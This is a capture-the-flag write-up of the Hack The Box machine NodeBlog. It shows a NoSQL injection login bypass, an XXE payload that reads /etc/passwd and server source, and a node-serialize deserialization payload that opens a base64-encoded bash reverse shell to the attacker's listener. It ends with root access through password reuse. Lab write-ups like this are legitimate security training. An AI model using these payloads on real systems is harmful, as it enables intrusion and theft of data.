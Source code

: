 ```yaml
---
layout: post
comments: false
title: "NodeBlog HTB Write Up"
tags: ['hackthebox', 'writeup', 'nosqlinyection']
---
```


## Introduction
Hello everyone! Today we are going to be pwning a HTB machine called NodeBlog. This is an easy machine, we are going to be covering a few fundamental attacks like xxe-injection or nosql-injection as asuch as deserialization (in node.js). Have fun reading!


## Ports recognizement
The ip address of the machine is 10.10.11.139
We are going to recognise all the post open on the machine and export the result into a grepeable file:
```bash
nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.11.139 -oG ports
```
The ports open are 22,5000

We are going to scan this ports and export into a nmap file
```bash
nmap -sSV --min-rate 5000 -vvv -p22,5000 -n -Pn 10.10.11.139 -oN services
```
We can see there is a ssh service running at port 22 and a http (node.js) service running at port 5000

## Inspect the web and fuzzing
While we inspect the web we are going to leave wfuzz fuzzing the site in case it find something relevant.

```bash
wfuzz --hc 404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -u 10.10.11.139:5000/FUZZ
```

We can see a green login button. Let's proceed.
We can see a login form.
We can try some sql inyection inputs like ' or ' -- -
but won't work. 

We have to test also nosql inyection. [PayloadAllTheThings][attp] have some exploit to bypass login form.
We are going to use burpsuite to intercept the response and modify the fields on the forms.

If we input random logins we have the response Invalid Username, but if we set in the username field admin and in the password random text we get Invalid Password, so we have a method to get users.
Now we can try bypass the password with nosqli.
```bash
{"user": "admin", "password": {"$ne": null}}
```
Also we can make a script to dump all posible usernames ans their relative passwords [nosqlforce.py][nsqlf]

> WE ARE INSIDE :boom:
<br>

We see an upload button. We try to upload a random file and we get this response:


This might be a vulnerability to XXE inyection.
Also [PayloadAllTheThings][attpxxe] cover this subject with some payloads.
We can try some payloads like 
```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
In /etc/passwd we set the path to the file we want to see.
We create an xml file with this payload and we can try to upload this.

We have a response that tell us that we give the xml in the incorrect format. If we inspect the code we can see that the correct format is:
```html
Invalid XML Example: <post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

So we modify our payload to follow that structure:
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>Example Post</title>
        <description>Example Description</description>
        <markdown>&file;</markdown>
</post>
```
The &file; contains the output of the payload.

If we look into the source code of the web site we can see the /etc/passwd file wich contains multiple users of the system.

At his point we can enumerate multiple files of the machine.
We can make a simple script which is going to help to enumerate the site faster [xxe-file-dumper.py][xfd]

Let's continue looking the website. If we try to post another article by our own we get an error:

We can see the web is hosted on the /opt/blog.
We can look for a server.js or main.js file which usually have the main server code of the web server. Let's try it. We are going to use [xxe-file-dumper.py][xfd]

```bash
python3 xxe-file-dumper.py -u http://10.10.11.139:5000/articles/xml -f /opt/blog/server.js
```

We can see the we have an output file:
```node
const express = require(&#39;express&#39;)
const mongoose = require(&#39;mongoose&#39;)
const Article = require(&#39;./models/article&#39;)
const articleRouter = require(&#39;./routes/articles&#39;)
const loginRouter = require(&#39;./routes/login&#39;)
const serialize = require(&#39;node-serialize&#39;)
const methodOverride = require(&#39;method-override&#39;)
const fileUpload = require(&#39;express-fileupload&#39;)
const cookieParser = require(&#39;cookie-parser&#39;);
const crypto = require(&#39;crypto&#39;)
const cookie_secret = &#34;UHC-SecretCookie&#34;
//var session = require(&#39;express-session&#39;);
const app = express()

mongoose.connect(&#39;mongodb://localhost/blog&#39;)

app.set(&#39;view engine&#39;, &#39;ejs&#39;)
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride(&#39;_method&#39;))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: &#34;UHC-SecretKey-123&#34;}));

function authenticated(c) {
    if (typeof c == &#39;undefined&#39;)
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash(&#39;md5&#39;).update(cookie_secret + c.user).digest(&#39;hex&#39;)) ){
        return true
    } else {
        return false
    }
}


app.get(&#39;/&#39;, async (req, res) =&gt; {
    const articles = await Article.find().sort({
        createdAt: &#39;desc&#39;
    })
    res.render(&#39;articles/index&#39;, { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use(&#39;/articles&#39;, articleRouter)
app.use(&#39;/login&#39;, loginRouter)


app.listen(5000)
```

We can see that the server is using an unserialize function without sanitaze input. This can be a desirializing vulneravility.

Usually the unserialize input is the cookie, because this and It's called c the code is probably deserializing the cookie.

The problem about the insecure deserilization is that if you use IIFE you can execute code when the function is deserializating even before the string is interpreted. So we can send the payload into the cookie, when the server desirialize the string, this will be executed even the cookie doen't have any sense.
This [post][deserialize_post] explain it pretty well.
The payload is the next:

```js
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls', function(error, stdout, stderr){console.log(stdout)});}()"}
```

We can inject a revershell payload into the code that we want to run.
```bash
bash -i >& /dev/tcp/{your_tun0_ip}/443 0>&1
```
In order to pass this code into the url we have to convert it in base64
```bash
echo 'bash -i >& /dev/tcp/{your_tun0_ip}/443 0>&1' | base64
```
In the victim's machine we have to reverse the base64 format, so our final reverse shell payload is:
```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzQ0MyAwPiYxCg==|base64 -d|bash
```
We mix it the the rec payload, the result:
```js
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzQ0MyAwPiYxCg==|base64 -d|bash', function(error, stdout, stderr){console.log(stdout)});}()"}
```

With burpsuite we modify the cookie when we make a get request to the main page, we introduce the payload into the cookie. Mention that we have to previusly url encode this entire payload beacuse they are special character that mean's another thing in a url format (like ;).
Encoding all will asure us that the payload will work fine.

We start listening with netcat in the 443 port
```bash
sudo nc -lnvp 443
```

We send the payload, and we have a shell!
We can try to capture the flag which is alocate at /home/admin/user.txt
For some reason we dont hace permission to read the content of the folder, but our user owns the folder, so we just can chnage permission of the folder with
```bash
chmod +x /home/admin
```
Now we can see the flag!
```bash
cat /home/admin/user.txt
```

## Privilige escalation
We can try use the same password to the super user
```bash
sudo su
```
We introduce the password which we captured before when we dump the password of admin user with [nosqlforce.py][nsqlf].
They reuse the password so we are already logged root.
We can capture the flag which is located at /root/root.txt
```bash
cat /root/root.txt
```

Thank's all for reading! 📖


[nsqlf]:https://github.com/isuckatlinux/htbmachines/blob/main/nodeblog/scripts/nosqlbruteforce.py

[deserialize_post]: https://sking7.github.io/articles/1601216121.html

[xfd]: https://github.com/isuckatlinux/htbmachines/blob/main/nodeblog/scripts/xxe-file-dumper.py
[attp]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection

[attpxxe]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
